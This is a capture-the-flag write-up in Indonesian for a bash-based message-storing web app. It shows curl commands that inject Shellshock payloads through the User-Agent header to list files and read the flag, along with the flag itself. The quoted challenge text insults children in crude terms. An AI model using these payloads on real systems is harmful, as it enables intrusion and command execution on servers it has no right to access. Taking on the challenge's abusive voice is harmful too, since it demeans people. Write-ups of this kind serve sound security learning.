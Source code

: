 Deskripsi soal: 

<pre>
"How did I end up here?" is the only question you can think of since you've become a high school teacher. 
Let's face it, you hate children. Bunch of egocentric retards. Anyway, you are not going to take it anymore. 
It's time to have your little midlife crisis right in the face of these fuckers.
Good thing that you're in the middle of some project days and these little dipshits wrote a simple message storing web application. 
How cute. It's written in bash... that's... that's... aw- no... bashful. 
You've got the source, you've got the skills. 0wn the shit out of this and show them who's b0ss.
</pre>

URL: https://school.fluxfingers.net:1503

Peserta diberikan soal dimana sebuah website dapat meng-handle Bash script. Sebenarnya kami tidak berhasil tepat waktu menyelesaikan tantangan yang satu ini, tetapi tidak ada salahnya kami membagikan cara penyelesaiannya.
<br />
Jadi, pada soal tantangan kali ini kami mencoba untuk melakukan command injection melalui header tepatnya pada sisi User-Agent. Kami menggunakan trigger exploit <b>Shellshock</b> untuk mengetes kerentanan apakah bash yang terdapat pada situs ini memiliki kerentanan akan serangan tersebut.
<br />
Kemudian , untuk mencoba trigger exploit tersebut kami menggunakan curl untuk menjalankan custom User-Agent yang sebelumnya sudah kami beri trigger exploitnya. Selanjutnya kami menjalankan perintah untuk melaksanakan directory listing pada direktori /bin <br />
```bash
curl -A "() { :;}; /bin/ls;" https://school.fluxfingers.net:1503/?sessid=sessid_anda
```
Voila! terdapat beberapa file - file yang menarik disini, berarti ini menunjukkan trigger exploit tersebut berjalan dengan baik.
<pre>
404.sh
flag
home.html
home.sh
index.sh
</pre>
Terlihat file <b>flag</b> yang muncul dimana kami yakin itulah file yang menyimpan kalimat dari flag itu sendiri. Maka, perintah terakhir yang dijalankan ialah :
<br />
```bash
curl -A "() { :;}; /bin/cat flag;" https://school.fluxfingers.net:1503/?sessid=sessid_anda
```
<br />
Didapatkan flag: <b>flag{as_classic_as_it_could_be}</b>
